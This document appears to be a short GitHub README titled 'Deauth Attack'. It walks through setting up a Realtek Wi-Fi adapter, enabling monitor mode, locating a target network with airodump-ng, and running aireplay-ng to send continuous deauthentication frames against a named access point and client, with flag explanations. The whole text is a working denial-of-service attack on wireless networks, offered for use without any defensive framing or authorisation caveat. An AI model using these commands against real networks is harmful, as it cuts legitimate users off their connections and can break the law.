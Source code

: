 # Deauth Attack


## Commands used to setup the adapter
```
sudo apt update
sudo apt install bc
sudo rmmod r8188eu.ko
git clone https://github.com/aircrack-ng/rtl8188eus
cd rtl8188eus
sudo -i
echo "blacklist r8188eu" > "/etc/modprobe.d/realtek.conf"
exit
make
sudo make install
sudo modprobe 8188eu
```

## Commands to enable monitor mode after setting up
```
ifconfig wlan0 down
airmon-ng check kill
iwconfig wlan0 mode monitor
ifconfig wlan0 up
iwconfig
```

## Actions
```
airmon-ng
airmon-ng start wlan0
airodump-ng wlan0mon
airodump-ng -d "target's BSSID" -c "target's channel number" "wireless adapter monitor mode name"
airodump-ng -d 50:C7:BF:DC:4C:E8 -c 11 wlan0mon
aireplay-ng -0 0 -a 50:C7:BF:DC:4C:E8 -c E0:B5:2D:EA:18:A7 wlan0mon
```
#### * Aireplay command description
```
-0 means deauthentication.
 0 is the number of deauths to send 0 means send them continuously, you can send 10 if you want the target to disconnect and reconnect.
-a 50:C7:BF:DC:4C:E8 is the MAC address of the access point we are targeting.
-c E0:B5:2D:EA:18:A7 is the MAC address of the client to deauthenticate; if this is omitted then all clients are deauthenticated.
wlan0mon is the interface name.
```

## After using
```
service NetworkManager restart
```
